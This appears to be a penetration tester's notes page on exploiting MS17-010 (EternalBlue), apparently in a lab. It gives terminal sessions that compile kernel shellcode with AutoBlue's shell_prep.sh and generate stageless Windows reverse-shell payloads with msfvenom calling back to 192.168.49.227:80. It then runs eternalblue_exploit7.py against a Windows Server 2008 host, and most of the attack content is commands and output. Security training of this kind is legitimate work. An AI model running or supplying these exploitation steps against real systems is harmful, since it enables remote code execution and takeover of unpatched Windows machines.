 # MS17-10 Eternal Blue

{% embed url="https://www.youtube.com/watch?v=_uLJB_Ys120" %}

Exploitation:&#x20;

Determine Arch and Version with RPC and the checker.py

Generate shellcode.&#x20;

```
╭─      /home/k/I/r/192.168.100.40/exploit/AutoBlue-MS17-010/shellcode     master ?1 ▓▒░──░▒▓ ✔  root@kali 
╰─ ./shell_prep.sh          
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
192.168.49.227
LPORT you want x64 to listen on:
80
LPORT you want x86 to listen on:
80
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=192.168.49.227 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=192.168.49.227 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```

Run the exploit with the generated shellcode, however this is your choice, you could listen on netcat or multi handler.

```
python3 eternalblue_exploit7.py 192.168.227.40 shellcode/sc_x86.bin
shellcode size: 962
numGroomConn: 13
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

![](<../../../.gitbook/assets/image (32).png>)

<details>

<summary>Examples of MS17-010 Exploitation </summary>

[https://app.gitbook.com/s/W4W90VbfwmNDIWm2WPEp/exploitation](https://app.gitbook.com/s/W4W90VbfwmNDIWm2WPEp/exploitation) (Internal)

[https://app.gitbook.com/s/K9ypgFnQbnC0ifl3hOms/](https://app.gitbook.com/s/K9ypgFnQbnC0ifl3hOms/) (HelpDesk)

</details>
